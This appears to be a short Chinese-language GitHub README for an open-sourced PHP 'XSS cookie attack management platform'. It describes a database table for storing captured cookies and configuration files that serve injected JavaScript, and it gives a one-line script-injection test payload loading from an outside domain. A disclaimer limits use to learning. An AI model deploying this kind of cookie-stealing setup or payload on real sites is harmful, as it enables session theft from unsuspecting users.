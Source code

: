 # xss
php写的个人研究测试用的  xss cookie 攻击管理平台,开源出来

![image](https://github.com/keyus/xss/xss_demo.png)

<h1>仅用于学习交流，禁止用于非法行为，后果自付
</h1>
<p>
数据库里面只有一张表 tu_message 用于存储cookie,自行建行立数据库，导入表
</P>


<p>
config.php  配置后台登陆用户名与密码,与mysql数据库用户名，密码。
index.php   为xs返回的js原码,自行配置js跨站请求的域名
</p>


<h2>本地测试</h2>
<code>
&lt;script src="//xs.com"&gt;&lt;/script&gt;
</code>


